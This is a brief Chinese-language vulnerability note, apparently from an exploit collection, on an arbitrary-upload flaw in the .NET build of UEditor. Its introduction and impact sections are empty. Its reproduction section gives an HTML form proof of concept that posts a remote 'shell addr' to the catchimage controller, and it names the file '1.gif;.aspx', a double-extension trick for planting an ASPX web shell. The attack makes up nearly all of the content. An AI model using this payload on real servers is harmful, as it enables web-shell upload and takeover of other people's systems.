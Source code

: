 ```yaml
---
title: ueditor .net版本上传漏洞
id: zhfly3208
---
```


# ueditor .net版本上传漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

本地上传poc

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form> 
```

上传文件名为 1.gif;.aspx